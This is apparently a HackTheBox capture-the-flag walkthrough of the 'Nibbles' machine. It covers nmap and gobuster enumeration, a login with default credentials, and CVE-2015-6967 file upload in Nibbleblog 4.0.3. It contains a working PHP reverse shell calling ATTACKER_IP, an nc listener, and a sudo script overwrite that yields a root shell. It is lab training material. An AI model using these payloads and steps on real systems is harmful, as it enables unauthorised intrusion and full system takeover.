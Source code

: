 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

---

### 🕵️ Enumeration

#### 🔍 Nmap Scan
```bash
sudo nmap -sV -sC -sS -oA scan/result $IP
```
Discovered open ports:
- **22/tcp** - [SSH](SSH)
- **80/tcp** - [HTTP](HTTP)

### 🌐 Web Enumeration
Visiting the site on port 80 reveals a PHP-based web application. View page source shows a hidden directory:

**Interesting Directory:** `/nibbleblog/`

#### 📂 Directory Fuzzing
```bash
gobuster dir --url "http://$IP/nibbleblog/" -w /usr/share/dirb/wordlists/small.txt -x php
```
Discovered:
- `/admin.php` – Admin login page

---

### 🔐 Exploitation

#### 🔑 Default Credentials & Exploit
- Found **default credentials**: `admin:nibbles`
- Confirmed to work on `/nibbleblog/admin.php`
- Vulnerable version: **Nibbleblog 4.0.3**
- Public exploit: CVE-2015-6967 – Arbitrary File Upload

#### 🐚 Reverse Shell Upload
Upload a PHP reverse shell through the **my_image** plugin:

**Payload (Replace IP and port):**
```php
<?php
// PHP Reverse Shell
$sock=fsockopen("<ATTACKER_IP>",9001);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Start listener:
```bash
nc -nlvp 9001
```

Trigger the shell:
```bash
curl http://$IP/nibbleblog/content/private/plugins/my_image/image.php
```

---

### 🧗 Privilege Escalation

#### 🔍 Finding Personal Files
Found file: `personal.zip`  
Unzipped it contains a **bash script** monitoring resources.

```bash
sudo -l
```
Shows we can run the monitoring script **as root without password**.

#### 🛠️ Modify Script
Append reverse shell code or just spawn root shell:
```bash
#!/bin/bash
bash
```
Upload and overwrite the original script. Then execute it with sudo:
```bash
sudo /path/to/monitoring_script.sh
```

### 🏁 Root Access
You now have a **root shell** on the machine.

---

### 📝 Summary
- Gained web access using default creds on Nibbleblog.
- Exploited CVE-2015-6967 to upload a reverse shell.
- Found a user-owned zip file containing a script run as root.
- Modified script to spawn a root shell.

Cheers 🥂

